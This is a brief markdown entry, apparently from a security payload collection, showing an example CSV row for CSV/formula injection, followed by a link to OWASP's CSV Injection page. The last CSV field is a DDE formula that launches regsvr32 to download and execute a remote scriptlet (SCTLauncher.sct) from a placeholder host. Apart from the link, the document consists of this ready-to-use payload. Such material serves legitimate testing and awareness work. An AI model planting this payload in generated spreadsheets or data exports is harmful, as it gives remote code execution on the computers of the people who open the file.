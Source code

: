 # Example CSV:
```csv
fillerText1,fillerText2,fillerText3,=MSEXCEL|'\..\..\..\Windows\System32\regsvr32 /s /n /u /i:http://RemoteIPAddress/SCTLauncher.sct scrobj.dll'!''
```

# Links:

- [OWASP: CSV Injection](https://www.owasp.org/index.php/CSV_Injection)
